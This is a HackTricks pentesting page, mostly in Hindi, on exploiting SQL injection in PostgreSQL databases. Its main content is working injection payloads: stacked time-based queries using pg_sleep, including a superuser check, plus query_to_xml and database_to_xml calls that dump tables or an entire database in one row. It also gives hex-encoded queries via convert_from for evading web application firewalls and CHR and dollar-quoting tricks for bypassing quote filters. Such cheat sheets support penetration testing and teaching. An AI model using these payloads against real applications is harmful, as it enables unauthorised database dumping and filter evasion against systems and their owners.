 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**यह पृष्ठ विभिन्न तरकीबों को समझाने का लक्ष्य रखता है जो आपको एक पोस्टग्रेएसक्यूएल डेटाबेस में पाए गए SQL इंजेक्शन का शोषण करने में मदद कर सकती हैं और उन तरकीबों को पूरा कर सकती हैं जो आप** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **पर पा सकते हैं।**

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL मॉड्यूल `dblink`** अन्य PostgreSQL उदाहरणों से कनेक्ट करने और TCP कनेक्शन निष्पादित करने की क्षमताएँ प्रदान करता है। ये सुविधाएँ, `COPY FROM` कार्यक्षमता के साथ मिलकर, विशेषाधिकार वृद्धि, पोर्ट स्कैनिंग, और NTLM चुनौती प्रतिक्रिया कैप्चर जैसी क्रियाओं को सक्षम बनाती हैं। इन हमलों को निष्पादित करने के विस्तृत तरीकों के लिए देखें कि [इन हमलों को कैसे करें](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)।

### **dblink और बड़े ऑब्जेक्ट्स का उपयोग करके एक्सफिल्ट्रेशन उदाहरण**

आप [**इस उदाहरण को पढ़ सकते हैं**](dblink-lo\_import-data-exfiltration.md) यह देखने के लिए कि **कैसे बड़े ऑब्जेक्ट्स के अंदर डेटा लोड करें और फिर फ़ंक्शन `dblink_connect` के उपयोगकर्ता नाम के अंदर बड़े ऑब्जेक्ट्स की सामग्री को एक्सफिल्ट्रेट करें।**

## PostgreSQL हमले: पढ़ें/लिखें, RCE, प्रिवेस्क

देखें कि PostgreSQL से होस्ट को कैसे समझौता करें और विशेषाधिकार कैसे बढ़ाएं:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF बायपास

### PostgreSQL स्ट्रिंग फ़ंक्शन

स्ट्रिंग्स को मैनिपुलेट करना आपको **WAFs या अन्य प्रतिबंधों को बायपास करने में मदद कर सकता है।**\
[**इस पृष्ठ पर**](https://www.postgresqltutorial.com/postgresql-string-functions/) **आप कुछ उपयोगी स्ट्रिंग फ़ंक्शन पा सकते हैं।**

### स्टैक्ड क्वेरीज़

याद रखें कि PostgreSQL स्टैक्ड क्वेरीज़ का समर्थन करता है, लेकिन कई एप्लिकेशन एक त्रुटि फेंक देंगे यदि 2 प्रतिक्रियाएँ लौटाई जाती हैं जबकि केवल 1 की अपेक्षा की जाती है। लेकिन, आप अभी भी टाइम इंजेक्शन के माध्यम से स्टैक्ड क्वेरीज़ का दुरुपयोग कर सकते हैं:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML ट्रिक्स

**query\_to\_xml**

यह फ़ंक्शन केवल एक फ़ाइल में XML प्रारूप में सभी डेटा लौटाएगा। यदि आप केवल 1 पंक्ति में बहुत सारा डेटा डंप करना चाहते हैं तो यह आदर्श है:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

यह फ़ंक्शन पूरे डेटाबेस को XML प्रारूप में केवल 1 पंक्ति में डंप करेगा (यदि डेटाबेस बहुत बड़ा है तो सावधान रहें क्योंकि आप इसे DoS कर सकते हैं या यहां तक कि अपने स्वयं के क्लाइंट को भी):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

यदि आप **क्वेरीज़** चला सकते हैं जो **एक स्ट्रिंग के अंदर** पास की जाती हैं (उदाहरण के लिए **`query_to_xml`** फ़ंक्शन का उपयोग करके)। **आप स्ट्रिंग को हेक्स के रूप में पास करने के लिए convert\_from का उपयोग कर सकते हैं और इस तरह फ़िल्टर को बायपास कर सकते हैं:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### निषिद्ध उद्धरण

यदि आप अपने पेलोड के लिए उद्धरण का उपयोग नहीं कर सकते हैं, तो आप इसे `CHR` के साथ बायपास कर सकते हैं बुनियादी धाराओं के लिए (_अक्षर संयोजन केवल बुनियादी प्रश्नों जैसे SELECT, INSERT, DELETE, आदि के लिए काम करता है। यह सभी SQL बयानों के लिए काम नहीं करता_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
या `$` के साथ। ये क्वेरी समान परिणाम लौटाती हैं:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमसे जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
